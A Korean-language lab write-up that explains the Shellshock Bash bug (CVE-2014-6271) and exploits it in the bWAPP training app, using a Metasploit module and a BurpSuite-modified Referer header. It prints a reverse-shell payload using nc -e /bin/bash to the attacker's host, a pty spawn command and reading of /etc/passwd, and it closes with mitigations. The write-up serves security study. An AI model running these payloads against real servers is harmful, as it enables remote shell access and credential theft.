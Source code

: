 ```yaml
---
title: "[bWAPP] 9. Using Known Vulnerable Components - Shellshock Vulnerability(CGI)"
---
```


<br>

## Using Known Vulnerable Components

- 알려진 취약점이 있는 컴포넌트 사용

- 웹 서비스를 운영하는 데 영역별로 다양한 모듈과 라이브러리 사용한다.

- 컴포넌트, 라이브러리, 프레임워크 및 다른 SW 모듈은 대부분 항상 전체권한으로 실행되는데

  이러한 취약한 컴포넌트를 악용하여 데이터 유실 및 서버 권한 획득이 가능한 취약점이다.

<br><br>

## CGI(Common Gateway Interface)

- 서버와 애플리케이션(응용 프로그램) 간에 데이터를 주고받는 방법 또는 규약
- 서버가 클라이언트로부터 요청을 수신하면, 이 요청이 처리되어야 할 경우, 서버가 애플리케이션을 실행시키고 이에 대한 응답을 받는 기능을 수행
- WAS가 없었을 당시 Web Server에서 동적 콘텐츠를 처리하기 위해 CGI를 사용했었다.

![image-20220210131116114](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220210131116114.png)

참조 : https://live-everyday.tistory.com/197

<br><br>

## Shellshock Vulnerability(CGI)

### GNU Bash

- 2014년 09월 24일 발견
- CVE-2014-6271

<br>

### Shellshock

- 이 취약점은 Bash 셸에서 환경 변수의 함수 선언문 뒤인 헤더에 임의의 명령어 () {:;}; 와 실행시킬 명령어를 삽입하게되면  환경변수 선언 후 뒤 명령어까지 실행되는 공격
- 공격자는 시스템의 보안을 우회하여 명령어를 실행 가능

<br>

### Bash Shell

- 사용자가 CLI 기반에서 명령어를 입력하면 OS가 이에 대응하는 동작하게 하는 명령어 해석기
- 프로세스 환경을 이용하여 다른 셸 인스턴스에 환경변수뿐 아니라 셸 함수를 선언하는 기능을 제공
- 함수 선언문에서 반복문으로 멈추지 않고 마지막까지 진행하여 추가된 셸 명령어까지 실행

<br>

### Bash Shell Bug

- Bash로 해당 명령을 실행했을 때, 그에 대응하는 결과 뿐만 아닌 다른 결과까지 실행하는 버그

![image-20220210131154301](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220210131154301.png)

<br><br>

## bWAPP

### 문제

![image-20220210131211844](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220210131211844.png)

- HINT : referer 헤더를 공격하여 아래 박스를 해킹하라

<br><br>

## Kali - msfconsole

### 실행

![image-20220210131230277](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220210131230277.png)

![image-20220210131359593](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220210131359593.png)

![image-20220210131418769](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220210131418769.png)

- 공격대상 : referer
- CVE - 2014 - 6271 메타스플로잇 모듈 : exploit/multi/http/apache_mod_cgi_bash_env_exec

<br>

### CGI 스크립트 경로  - 개발자 도구(F12)

![image-20220210131444262](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220210131444262.png)

- 문제 HINT의 pwn this box 가 CGI 스크립트
- CGI 스크립트 경로 : /bWAPP/cgi-bin/shellshock.sh

<br>

### exploit - set

![image-20220122012459767](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220122012459767.png)

- header 는 referer
- rhosts 는 비박스 IP
- 경로 : CGI 스크립트
- check로 설정 확인

<br>

### Exploit

![image-20220122012758669](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220122012758669.png)

- exploit 실행
- cat 명령어로 비박스 사이트 패스워드 정보 열람

<br><br>

## Kali - BurpSuite

### Netcat

![image-20220122013021061](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220122013021061.png)

- netcat 명령어로 8888번 포트 열기

### BurpSuite - 1

![image-20220122013209023](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220122013209023.png)

- 패킷 가로챔
- Forward 눌러서 한 번 넘겨줘서 헤더의 주소가 GET /bWAPP/cgi-bin/shellshock.sh HTTP/1.1로 바뀌게하기

### BurpSuite - 2

![image-20220122013348183](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220122013348183.png)

- Referer에 Shellshock 공격하기위해 환경변수 명령어와 () {:;}; 입력
- Referer: () { :; }; /bin/bash -c "nc [칼리 IP] [포트 번호] -e /bin/bash"

### BurpSuite - 3

![image-20220122013603514](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220122013603514.png)

- Forward 후 intercept off 누르기

<br>

### Kali

![image-20220122013703893](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220122013703893.png)

- 변조한 패킷 보내게 되면 페이지는 계속 로딩, 칼리는 쉘이 연결됨

<br>

### 명령어 수행

![image-20220122013907098](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220122013907098.png)

- 비박스 서버 쉘 획득
- python -c "import pty;pty.spawn('/bin/bash')" 명령어를 통해 프롬프트 생성
- cat /etc/passwd 로 패스워드 정보 열람

## 대응방안

- 취약한 버전 4.3 이전의 Bash를 업데이트하거나 CGI 제거
- 보안장비(IDS, IPS)를 통해 Shellshock 취약점 공격 문자열인 () { 문자열을 검열하여 차단
- 서비스에서 입력 값에 대한 검증을 임시로 추가하여 대응
